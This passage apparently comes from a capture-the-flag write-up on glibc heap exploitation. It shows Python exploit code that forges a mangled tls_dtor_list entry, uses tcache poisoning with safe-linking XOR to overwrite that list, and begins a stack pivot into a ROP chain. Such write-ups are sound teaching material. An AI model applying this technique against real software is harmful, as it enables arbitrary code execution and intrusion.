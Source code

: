 So let's replace `0xdeadbeefdeadbeef` with address of first `dtor_list`:

```python
### Create fake dtor_list

def left_rotate(data, bit):
    return (data << bit) | (data >> (64 - bit))

payload = flat(
    # dtor_list 1
    left_rotate(0xcafebabe, 0x11), 0,
    0, heap + 0x800,
    )
alloc(0x4f8, payload)


### Overwrite tls_dtor_list

alloc(0x18, b'6'*8)
delete(6)
delete(3)
payload = flat(
    ((heap + 0x7c0) >> 12) ^ (libc.sym['fs'] - 0x60)
    )
update(2, 0x18, payload)
alloc(0x18, b'3'*8)
alloc(0x18, b'6'*8 + p64(heap + 0x7e0))
```

When we try to run to exit(), we got segfault when the program tried to call `0xcafebabe`:

![segfault-dtor-list.png](images/segfault-dtor-list.png)

We can see that rdx contains the next pointer of next `dtor_list`. Let's see if we have any gadget that mov address from rdx to rsp or not because we want to execute our ROPchain and `heap+0x800` is under-control:

![ropgadget-find-rdx-rsp.png](images/ropgadget-find-rdx-rsp.png)
